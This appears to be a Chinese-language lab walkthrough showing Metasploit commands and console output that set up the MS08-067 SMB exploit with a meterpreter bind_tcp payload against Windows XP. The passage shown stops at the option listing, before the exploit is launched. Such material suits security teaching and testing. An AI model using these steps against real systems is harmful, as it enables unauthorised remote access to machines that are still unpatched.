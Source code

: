 ### 1、漏洞覆盖系统范围
MS08-067漏洞将会影响Windows 2000/XP/Server 2003/Vista/Server 2008的各个版本，甚至还包括测试阶段的 Windows 7 Pro-Beta
以下实验以WinXP为例
### 2、进入msf终端
```shell script
┌──(rootli)-[~]
└─# msfconsole
```
### 3、搜索漏洞框架
```shell script
msf6 > search ms08-067
 
Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > 
```
### 4、设置payload
```shell script
msf6 >  use exploit/windows/smb/ms08_067_netapi 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
```
### 5、查看需要设置的选项
```shell script
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```
